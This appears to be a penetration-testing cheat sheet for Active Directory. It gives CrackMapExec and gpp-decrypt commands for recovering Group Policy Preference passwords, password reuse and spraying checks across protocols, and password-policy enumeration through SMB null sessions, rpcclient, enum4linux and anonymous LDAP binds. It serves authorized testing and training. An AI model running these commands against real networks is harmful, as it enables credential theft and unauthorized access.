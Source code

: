 #### Locating & Retrieving GPP Passwords with CrackMapExec
```bash
$ crackmapexec smb -L | grep gpp
```

#### Decrypting the Password with gpp-decrypt
```bash
$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as Get-GPPPassword.ps1, the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value. CrackMapExec also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password (especially if it is unique). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.

* * *

# Clear Text Password 
## Check for Password Reuse
{ldap,mssql,smb,ssh,winrm}
```bash
$ crackmapexec <protocol> hosts.lst -u <username> -p <password>
```

* * *

## Enumerating the Password Policy
* With valid domain credentials, the password policy can also be obtained remotely using tools such as CrackMapExec or rpcclient.

### Linux
```bash
$ crackmapexec smb <DC_IP> -u <USERNAME> -p <PASSWORD> --pass-pol
```

#### SMB NULL Sessions
SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. SMB NULL session misconfigurations are often the result of legacy Domain Controllers being upgraded in place, ultimately bringing along insecure configurations, which existed by default in older versions of Windows Server.

```bash
# Using rpcclient
$ rpcclient -U "" -N <DC>
rpcclient $> querydominfo # check SMB for more queries


# Using enum4linux
$ enum4linux -P <DC>


# Using enum4linux-ng
$ enum4linux-ng -P <DC> -oA <FILE>
$ cat <FILE>.json 


# LDAP Anonymous Bind
$ ldapsearch -h <DC> -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```